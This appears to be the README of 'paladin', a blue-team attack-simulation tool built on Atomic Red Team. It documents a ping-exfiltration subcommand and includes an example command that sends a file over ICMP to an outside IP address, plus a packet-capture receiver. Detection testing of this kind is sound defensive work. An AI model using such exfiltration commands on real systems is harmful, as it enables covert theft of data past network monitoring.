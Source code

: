 <p align="center"> 
  <img src="images/logo.png" width="250" title="paladin" align="center">
  <p align="center">A blueteam tool to simulate attacks using Atomic Red Team and other techniques.</p>
</p>

---

## Getting started

### Ping Exfil

The ping exfil subcommand is working and implements a basic ping exfil attack scenario.
```
Run ping exfil like tests on current host

Usage:
  paladin exfil ping [flags]
  paladin exfil ping [command]

Available Commands:
  receive     Packet capture ping requests and reassemble files

Flags:
  -d, --destination string   The Destination Host of the Ping
  -f, --file string          The name of the file to send over ping
  -h, --help                 help for ping

Use "paladin exfil ping [command] --help" for more information about a command.
```
#### Basic Usage
Client

```
# paladin exfil ping -d 45.63.67.242 -f test.txt
```

Server
```
$ paladin exfil ping receive -i ens3
```
### Atomic Red Team


### DNS Exfil
WIP

### Infection Gopher
WIP

## Local Development

This project requires Go to be installed. On OS X with Homebrew you can just run `brew install go`.

Building locally requires statik 

```console
$ go get github.com/rakyll/statik
```

Running it then should be as simple as:

```console
$ make
$ ./bin/paladin
```